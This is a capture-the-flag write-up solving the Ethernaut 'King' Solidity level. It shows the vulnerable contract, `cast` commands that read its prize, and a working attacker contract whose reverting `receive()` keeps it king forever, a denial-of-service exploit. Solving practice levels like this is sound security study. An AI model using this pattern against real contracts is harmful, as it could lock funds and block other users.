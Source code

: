```yaml
---
title: Ethernaut - King - Solution
date: '2024-05-07'
tags: ['security', 'solidity', 'ctfs']
draft: false
summary: Solution to the Ethernaut - King CTF
---
```


# Ethernaut - King - Solution

## Contract

```solidity
// SPDX-License-Identifier: MIT
pragma solidity ^0.8.0;

contract King {
    address king;
    uint256 public prize;
    address public owner;

    constructor() payable {
        owner = msg.sender;
        king = msg.sender;
        prize = msg.value;
    }

    receive() external payable {
        require(msg.value >= prize || msg.sender == owner);
        payable(king).transfer(msg.value);
        king = msg.sender;
        prize = msg.value;
    }

    function _king() public view returns (address) {
        return king;
    }
}
```

## Solution

The goal of this level is to become the king forever.

First, we can inspect how much funds we have to send to the contract to become the new king:

```bash
cast storage <your level instance address> 1 --rpc-url $SEP_RPC_URL
# Result: 0x00000000000000000000000000000000000000000000000000038d7ea4c68000

cast to-dec 0x00000000000000000000000000000000000000000000000000038d7ea4c68000
# Result: 1000000000000000
```

This tells us that the prize is 1 Finney.

Second, we see that `receive()` sends funds to the current king before assigning the new king.
This means we can solve this level by deploying an attacker contract that contains

1. a function that allows it to become the new king and
2. a `receive()` function that always reverts.

In other words, we can use Remix to deploy the following attacker contract and subsequently call `becomeKing()` specifying a value of at least 1 Finney.

```solidity
// SPDX-License-Identifier: MIT
pragma solidity ^0.8.0;

contract KingAttacker {
    address public immutable LEVEL_INSTANCE;

    constructor(address levelInstance) {
        LEVEL_INSTANCE = levelInstance;
    }

    function becomeKing() external payable {
        (bool success, ) = payable(LEVEL_INSTANCE).call{value: msg.value}("");
        require(success, "Transfer failed");

    }

    receive() external payable {
        revert("Long live Marco XLII");
    }
}
```
